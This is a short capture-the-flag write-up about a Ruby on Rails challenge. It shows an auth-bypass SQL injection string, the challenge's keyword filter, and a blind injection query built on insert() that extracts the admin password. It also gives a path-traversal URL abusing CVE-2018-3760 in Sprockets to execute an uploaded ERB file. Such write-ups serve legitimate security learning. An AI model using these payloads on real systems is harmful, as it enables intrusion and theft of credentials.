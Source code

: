 This challenge was a ruby on rails application.  
The index route redirects to a login page, which is vulnerable to sql injection  
After people bypass auth with simple payloads like `' or 1=1 #` you will know that the goal is to retreive admin password using sqli and login into /admin.  
The filter was :  
```RUBY
hack =  /union|benchmark|strcmp|locate|STRCMP|position|file|concat|sleep|md5|mid|sub|count|and|left|load|space|instr|pad|conv|right|ascii|cast|reverse|locate|glob|having|like|match|char|regexp|limit|order|group|hex|information/i
```
So there is no substr functions no unions etc ...  
A possible solution(there are others) is to use insert function basically you can do :  
SELECT ('a')=(insert((SELECT password from users where isadmin=1), 2, 255, ''));  
And do blind injection to retreive password, more details about this technique are [here](https://gist.github.com/stypr/43fce10db9fa44b5f072442245d9e82e)  
After finding the admin password and login into /admin, we will be redirected to /upload where you can upload any file you want, the only thing that is returned is the PATH of that file.  
Gemfile shows the version of Sprockets that was used, which was vulnerable to CVE-2018-3760  
Basically you need to upload an erb file containing your payload and abuse the CVE to get RCE :  
The payload for rce looks like : http://185.168.131.128:8080/assets/file:%2f%2f/home/web03/app/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252E%252E/%252E%252E/home/web03/app/uploads/resumes/someHash/file.erb%3Ftype=text/plain  
For more details about the CVE , check Orange Tsai talk at BHUSA 2018.
